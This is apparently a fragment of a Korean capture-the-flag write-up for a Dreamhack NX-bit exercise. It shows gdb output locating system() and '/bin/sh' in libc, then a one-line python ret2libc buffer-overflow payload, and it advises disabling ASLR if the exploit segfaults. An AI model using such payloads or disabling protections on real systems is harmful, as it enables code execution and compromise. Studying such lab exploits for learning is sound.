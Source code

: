 ```
	0xf7ddd000 0xf7fb2000   0x1d5000        0x0 /lib/i386-linux-gnu/libc-2.27.so
	0xf7fb2000 0xf7fb3000     0x1000   0x1d5000 /lib/i386-linux-gnu/libc-2.27.so
	0xf7fb3000 0xf7fb5000     0x2000   0x1d5000 /lib/i386-linux-gnu/libc-2.27.so
	0xf7fb5000 0xf7fb6000     0x1000   0x1d7000 /lib/i386-linux-gnu/libc-2.27.so
	0xf7fb6000 0xf7fb9000     0x3000        0x0 
	0xf7fd0000 0xf7fd2000     0x2000        0x0 
	0xf7fd2000 0xf7fd5000     0x3000        0x0 [vvar]
	0xf7fd5000 0xf7fd6000     0x1000        0x0 [vdso]
---Type <return> to continue, or q <return> to quit---
	0xf7fd6000 0xf7ffc000    0x26000        0x0 /lib/i386-linux-gnu/ld-2.27.so
	0xf7ffc000 0xf7ffd000     0x1000    0x25000 /lib/i386-linux-gnu/ld-2.27.so
	0xf7ffd000 0xf7ffe000     0x1000    0x26000 /lib/i386-linux-gnu/ld-2.27.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e1a250 <system>
(gdb) find 0xf7ddd000, 0xf7fb2000, "/bin/sh"
0xf7f5b3cf
1 pattern found.
```


익스코드
```
`python -c 'print "A"*40 + "\x50\xa2\xe1\xf7" + "BBBB" +  "\xcf\xb3\xf5\xf7"'`
```


![image](/assets/img/dreamhack/nxbit.PNG)

이부분에서 Segmentation fault가 뜬다면 아마 ASLR일 확률이 높다. randomize_va_space를 0으로 설정해볼것.